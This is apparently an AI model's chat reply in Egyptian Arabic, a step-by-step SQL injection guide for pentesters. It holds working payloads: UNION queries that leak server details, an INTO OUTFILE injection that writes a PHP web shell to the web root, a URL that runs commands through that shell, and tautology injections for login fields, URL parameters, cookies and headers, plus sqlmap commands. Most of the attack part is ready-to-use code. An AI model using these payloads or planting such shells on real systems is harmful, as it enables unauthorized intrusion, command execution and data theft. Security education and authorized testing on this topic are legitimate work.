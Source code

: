 #### **ازاي بيشتغل؟**
بتستخدم أوامر زي `INTO OUTFILE` عشان تكتب ملف على السيرفر، وبعدين تستغله.

#### **مثال عملي:**
- **اختبار الصلاحيات:**
  ```
  ' UNION SELECT 1, @@version, @@datadir --
  ```
  لو رجعلك مسار الداتابيز (زي `/var/lib/mysql/`)، يبقى تقدر تكتب ملفات.

- **كتابة ملف:**
  ```
  ' UNION SELECT 1, '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --
  ```
  لو نجح، افتح:
  ```
  http://example.com/shell.php?cmd=whoami
  ```
  هيرجعلك اسم المستخدم بتاع السيرفر.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحب البيت "سيبلي ورقة أكتب فيها تعليمات للخدامين"، لو كتبته ونفذوها، يبقى بقيت إنت الكبير في البيت!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اختبار الحقول:**
   - جرب `' OR '1'='1 --` في أي حقل (لوجين، بحث).
   - لو نجح، استخدم `UNION` لسحب البيانات.

2. **اختبار الـ URL:**
   - عدل أي باراميتر زي `id=1` لـ `id=1' OR '1'='1 --`.
   - لو ظهرت بيانات زيادة، اسحب بـ `UNION`.

3. **اختبار الكوكيز:**
   - افتح الكوكيز في المتصفح أو Burp Suite.
   - عدل قيمة زي `user_id` لـ `1' OR '1'='1 --` وشوف الرد.

4. **اختبار الهيدرات:**
   - استخدم Burp أو curl وعدل `User-Agent` لـ `' OR '1'='1 --`.
   - لو في تغيير في الرد، جرب `UNION`.

5. **تنفيذ أوامر:**
   - تأكد من مسار الكتابة بـ `@@datadir`.
   - اكتب شيل بـ `INTO OUTFILE` واختبره.

6. **استخدام sqlmap:**
   - لحقول الـ POST:
     ```
     sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --dbs
     ```
   - للـ URL:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --dbs
     ```

#### **نصيحة:**
دوّن كل خطوة ونتايجها في تقريرك، وجرب كل طريقة لوحدها عشان تعرف أي طريقة شغالة.

---

ها، عايز أشرح حاجة زيادة أو أركز على طريقة معينة؟